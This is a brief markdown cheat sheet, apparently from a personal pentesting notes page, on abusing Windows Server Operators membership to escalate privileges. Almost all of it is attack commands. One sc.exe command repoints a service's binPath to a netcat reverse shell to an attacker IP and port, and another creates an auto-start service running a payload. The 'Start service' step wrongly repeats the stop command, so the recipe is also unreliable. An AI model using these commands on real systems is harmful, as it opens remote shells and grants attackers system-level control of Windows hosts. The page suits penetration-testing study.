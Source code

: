 ```yaml
---
title: "Server Operators"
date: 2024-7-13
tags: ["server operators", "active driectory", "ad", "Windows", "privesc", "service"]
---
```


### Abuse #1: Change service path

<div>

```console
# Change a service path (e.g. browser)
sc.exe config browser binPath= "C:\ProgramData\nc.exe -e cmd.exe <LOCAL_IP> <LOCAL_PORT>"
```

```console
# Stop service
sc.exe stop browser
```

```console
# Start service
sc.exe stop browser
```

</div>

### Additional: Create service

<div>

```console
# Create a service
sc.exe create pwn binpath= C:\ProgramData\rev.exe start= auto
```

</div>

<br>